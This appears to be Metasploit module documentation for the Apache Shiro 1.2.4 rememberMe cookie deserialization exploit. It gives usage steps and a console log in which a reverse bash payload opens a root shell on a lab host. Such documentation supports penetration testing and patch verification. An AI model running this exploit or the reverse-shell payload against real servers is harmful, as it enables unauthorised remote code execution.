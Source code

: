 ## Description

Apache Shiro v1.2.4 is vulnerable to a Java deserialization vulnerability. An
unauthenticated user can submit a YSoSerial payload to the Apache Shiro web
server as the value to the `rememberMe` cookie. This will result in code
execution in the context of the web server.

The YSoSerial `CommonsCollections2` payload is known to work and is the one
leveraged by this module.

## Vulnerable Application

[Shiro RememberMe 1.2.4](https://github.com/Medicean/VulApps/tree/master/s/shiro/1)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/shiro_rememberme_v124_deserialize`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested on GNU/Linux x86_64 using Shiro-1.2.4

```
msf5 > use exploit/multi/http/shiro_rememberme_v124_deserialize
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > set rhosts 192.168.1.11
rhosts => 192.168.1.11
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Command shell session 2 opened (192.168.1.2:4444 -> 192.168.1.11:36206) at 2019-02-04 20:16:27 +0800

whoami
root
exit
[*] 192.168.1.11 - Command shell session 2 closed.
```
